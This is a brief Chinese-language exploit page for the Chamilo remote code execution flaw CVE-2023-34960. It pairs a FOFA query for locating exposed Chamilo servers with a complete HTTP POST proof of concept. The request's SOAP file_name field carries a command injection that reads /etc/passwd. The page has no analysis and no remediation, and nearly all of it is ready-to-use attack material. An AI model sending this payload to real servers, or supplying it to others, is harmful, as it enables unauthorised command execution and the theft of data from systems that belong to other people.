

# Chamilo RCE漏洞（CVE-2023-34960）
## 资产搜索
fofa app="Chamilo"  

## POC
```html
POST /main/webservices/additional_webservices.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Content-Length: 880
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip, deflate

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://mail.cosecadvirtual.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:ns2="http://xml.apache.org/xml-soap" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:wsConvertPpt><param0 xsi:type="ns2:Map"><item><key xsi:type="xsd:string">file_data</key><value xsi:type="xsd:string"></value></item><item><key xsi:type="xsd:string">file_name</key><value xsi:type="xsd:string">`{}`.pptx'|" |cat /etc/passwd||a #</value></item><item><key xsi:type="xsd:string">service_ppt2lp_size</key><value xsi:type="xsd:string">720x540</value></item></param0></ns1:wsConvertPpt></SOAP-ENV:Body></SOAP-ENV:Envelope>
```
